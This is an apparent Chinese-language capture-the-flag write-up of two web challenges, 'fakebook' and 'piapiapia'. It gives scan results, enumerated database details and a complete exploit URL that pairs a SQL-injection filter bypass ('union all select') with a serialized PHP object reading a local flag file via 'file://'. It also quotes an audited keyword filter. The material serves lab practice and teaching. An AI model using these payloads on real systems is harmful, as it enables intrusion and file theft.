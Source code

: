 
### fakebook

>[19:15:02] 200 -    1KB - /login.php
>[19:16:56] 200 -   37B  - /robots.txt
>[19:18:26] 200 -    0B  - /user.php
>[19:18:36] 200 - 1019B  - /view.php

查看robots.txt得到user.php.bak



数据库名:` fakebook,information_schema,mysq  l,performance_schema,test `

表名:` fakebook: users`

列名:` no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNEC`

//没有管理员账号

叫我们ssrf?

看了一下正则,发现好像没啥机会,思路到这里就断了



查看data发现是反序列化后的数据,那么可以猜测view.php是从数据库中取出序列化后的内容对其进行反序列化再显示内容

用union来让view.php反序列化我们提供的内容

但是union select 被过滤了,用union all select 来绕过

最后的payload

`http://03cd35f0-7b3a-4e24-a2ba-cb1e9d4d944c.node3.buuoj.cn/view.php?no=6666 union all select 1,2,3,'O%3A8%3A"UserInfo"%3A3%3A{s%3A4%3A"name"%3Bs%3A4%3A"evil"%3Bs%3A3%3A"age"%3Bi%3A0%3Bs%3A4%3A"blog"%3Bs%3A29%3A"file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fflag.php"%3B}' `



### piapiapia

>[20:44:48] 200 -  392KB - /www.zip
>
>[20:44:15] 403 -  571B  - /upload/



拿到代码后审计发现sql过滤还是很严格的没法逃脱单引号

但是我们注意到了

```php
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}


public function update_profile($username, $new_profile) {
		$username = parent::filter($username);
		$new_profile = parent::filter($new_profile);

		$where = "username = '$username'";
		return parent::update($this->table, 'profile', $new_profile, $where);
	}



```
